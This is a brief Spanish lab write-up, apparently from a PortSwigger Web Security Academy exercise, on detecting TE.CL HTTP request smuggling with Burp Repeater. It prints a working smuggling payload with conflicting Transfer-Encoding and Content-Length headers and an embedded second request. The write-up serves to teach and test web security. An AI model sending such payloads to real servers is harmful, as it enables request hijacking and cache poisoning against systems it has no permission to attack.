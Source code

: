 En esta clase trabajamos con una variante de HTTP request smuggling basada en la combinación TE.CL, donde el front-end permite codificación chunked y el back-end no. El objetivo es verificar si existe una desincronización entre ambos servidores manipulando los encabezados de longitud y codificación de la petición.

A través de dos envíos consecutivos desde Burp Repeater, provocamos una situación donde la segunda petición se ve afectada por los restos interpretados desde la primera, desencadenando una respuesta 404 inesperada en la raíz del sitio. Esta diferencia de comportamiento confirma la presencia del fallo, lo que nos permite avanzar hacia una posible explotación completa en una clase posterior.

Solucion
entonces con BS vamos a interceptar la web y vamos a cambiar el metodo get a post y lo ponemos en http:1.1
ponemos el payload
![Pasted image 20250807210152.png](imagenes/Pasted image 20250807210152.png)
POST / HTTP/1.1

Host: 0a2700a704a32a8f82dc6a1d00bb004a.web-security-academy.net

Transfer-Encoding: chunked

Content-Length: 4



38

POST /error HTTP/1.1

Content-Length: 30



testing=test

0





